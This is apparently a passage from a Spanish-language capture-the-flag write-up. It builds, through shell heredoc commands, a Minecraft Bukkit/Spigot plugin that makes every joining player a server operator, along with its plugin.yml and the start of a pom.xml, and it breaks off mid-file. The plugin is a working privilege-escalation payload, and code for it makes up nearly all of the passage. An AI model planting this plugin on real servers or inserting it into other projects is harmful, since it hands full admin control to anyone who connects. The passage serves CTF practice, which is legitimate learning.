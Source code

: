 ```shell
cat > src/main/java/com/ctf/autoop/AutoOpPlugin.java << EOF
package com.ctf.autoop;

import org.bukkit.event.EventHandler;
import org.bukkit.event.Listener;
import org.bukkit.event.player.PlayerJoinEvent;
import org.bukkit.plugin.java.JavaPlugin;

public class AutoOpPlugin extends JavaPlugin implements Listener {

    @Override
    public void onEnable() {
        getLogger().info("AutoOpPlugin activado");
        getServer().getPluginManager().registerEvents(this, this);
    }

    @EventHandler
    public void onPlayerJoin(PlayerJoinEvent event) {
        event.getPlayer().setOp(true);
        getLogger().info("Dando OP a " + event.getPlayer().getName());
    }
}
EOF
```

Ahora vamos a crear el archivo `.yml` necesario.

```shell
cat > src/main/resources/plugin.yml << EOF
name: AutoOpPlugin
main: com.ctf.autoop.AutoOpPlugin
version: 1.0
api-version: 1.12
EOF
```

Por ultimo super importante crear el archivo para las dependencias y configuracion de lo demas el archivo llamado `pom.xml`.

```shell
cat > pom.xml << EOF
<project xmlns="http://maven.apache.org/POM/4.0.0" 
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 
         http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.ctf</groupId>
  <artifactId>autoopplugin</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>AutoOpPlugin</name>

  <repositories>
    <repository>
      <id>spigot-repo</id>
      <url>https://hub.spigotmc.org/nexus/content/repositories/snapshots/</url>
    </repository>
  </repositories>

  <dependencies>
    <dependency>
      <groupId>org.spigotmc</groupId>
      <artifactId>spigot-api</artifactId>
```